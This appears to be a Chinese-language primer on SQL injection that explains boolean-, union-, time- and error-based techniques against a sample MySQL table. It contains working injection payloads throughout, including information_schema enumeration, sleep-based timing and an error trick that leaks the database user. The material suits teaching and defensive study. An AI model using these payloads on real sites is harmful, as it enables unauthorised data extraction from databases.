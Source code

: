 #SQL注入科普  

Edit by Qsaka  

----  
##SQL注入是如何产生的  
SQL注入的根本原因是不安全的操作被带入到数据库中。  
SQL注入从根源上可以分为int类型和string类型。  
1) int类型  

    "select name from students where id = $_GET['id']"
这是一个典型的未经任何过滤的注入，如果用户提交`id=-1 union select user()` ，将返回当前用户。  
2) string类型  

    "select name from students where area = '$_GET['area']'"
string型注入需要使用单/双引号闭合语句。如`area=%27 union select user()%23`。  
在此基础上衍生出报错注入，延时注入，联合注入，编码注入，  

##Boolean-based   
首先不得不讲SQL中的AND和OR  
AND 和 OR 可在 WHERE 子语句中把两个或多个条件结合起来。
AND:返回第一个条件和第二个条件都成立的记录。  
OR:返回满足第一个条件或第二个条件的记录。  
*AND和OR即为集合论中的交集和并集*  

    mysql> select * from students;
    +-------+-------+-----+
    | id    | name  | age |
    +-------+-------+-----+
    | 10056 | Doris |  20 |
    | 10058 | Jaune |  22 |
    | 10060 | Alisa |  29 |
    +-------+-------+-----+
    3 rows in set (0.00 sec)


思考以下语句：  
1)  

    mysql> select * from students where TRUE ;
    +-------+-------+-----+
    | id    | name  | age |
    +-------+-------+-----+
    | 10056 | Doris |  20 |
    | 10058 | Jaune |  22 |
    | 10060 | Alisa |  29 |
    +-------+-------+-----+
    3 rows in set (0.00 sec)

2)  

    mysql> select * from students where FALSE ;
    Empty set (0.00 sec)


3)  

    mysql> SELECT * from students where id = 10056 and TRUE ;
    +-------+-------+-----+
    | id    | name  | age |
    +-------+-------+-----+
    | 10056 | Doris |  20 |
    +-------+-------+-----+
    1 row in set (0.00 sec)  
    
4)  
    
    mysql> select * from students where id = 10056 and FALSE ;
    Empty set (0.00 sec)  
5)  

    mysql> selcet * from students where id = 10056 or TRUE ;
    +-------+-------+-----+
    | id    | name  | age |
    +-------+-------+-----+
    | 10056 | Doris |  20 |
    | 10058 | Jaune |  22 |
    | 10060 | Alisa |  29 |
    +-------+-------+-----+
    3 rows in set (0.00 sec)  
    
6)

    mysql> select * from students where id = 10056 or FALSE ;
    +-------+-------+-----+
    | id    | name  | age |
    +-------+-------+-----+
    | 10056 | Doris |  20 |
    +-------+-------+-----+
    1 row in set (0.00 sec)  

**如果你足够细心，你便会发现and 1=1 , and 1=2 即是 and TRUE , and FALSE 的变种**  
这便是最基础的boolean注入,以此为基础你可以自由组合语句，如  
字典爆破流  
`and exists(select * from ?)     //?为猜测的表名`    
`and exists(select ? from x)     //?为猜测的列名`  
截取二分流  
`and (length((select schema_name from information_schema.schemata limit 1))>?)       //判断数据库名的长度`  
`and (substr((select schema_name from information_schema.schemata limit 1),1,1)>'?')`     
`and (substr((select schema_name from information_schema.schemata limit 1),1,1)<'?')      //利用二分法判断第一个字符`  
*真爱生命，使用脚本*  

##Union  
比起多重嵌套的boolean注入，union注入相对轻松。因为，union注入可以直接返回信息而不是布尔值。  
1)  

    mysql> select name from students where id = -1 union select schema_name from information_schema.schemata;   //数据库名  
    +--------------------+
    | name               |
    +--------------------+
    | information_schema |
    | mysql              |
    | performance_schema |
    | rumRaisin          |
    | t3st               |
    | test               |
    +--------------------+
    6 rows in set (0.00 sec)  

2)  

    mysql> select name from students where id = -1 union select table_name from information_schema.tables where table_schema='t3st';    //表名
    +----------+
    | name     |
    +----------+
    | master   |
    | students |
    +----------+
    2 rows in set (0.00 sec)  
    
3)  
    
    mysql> select name from students where id = -1 union select column_name from information_schema.columns where table_name = 'students' ;     //列名
    +------+
    | name |
    +------+
    | id   |
    | name |
    | age  |
    +------+
    3 rows in set (0.00 sec)  

UNION 操作符用于合并两个或多个 SELECT 语句的结果集。请注意，UNION 内部的 SELECT 语句必须拥有相同数量的列。列也必须拥有相似的数据类型。同时，每条 SELECT 语句中的列的顺序必须相同。所以你如果想要使用union查询来进行注入，你首先要猜测后端查询语句中查询了多少列，哪些列可以回显给用户。  
猜测列数  

    union select 1
    union select 1,2
    union select 1,2,3
    //直到页面正常显示  
    
##Time-based  

    mysql> select name from students where id = 10056 or (select * from (select(sleep(5)))A) ;
    +-------+
    | name  |
    +-------+
    | Doris |
    +-------+
    1 row in set (5.00 sec)  

显然我们经过了5s的延迟才返回了数据结果。  

我们可以结合if语句来进行延时注入  

    mysql> select name from students where id = 10056 and if (exists(select * from students),sleep(3),1) ;
    Empty set (3.00 sec)

##Error-based  
根据错误信息提取数据:)  

    mysql> select name from students where id = 10056 and (select ~0+!(select*from(select user())x)) ;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(~(0) + (not((select 'root@localhost' from dual))))'

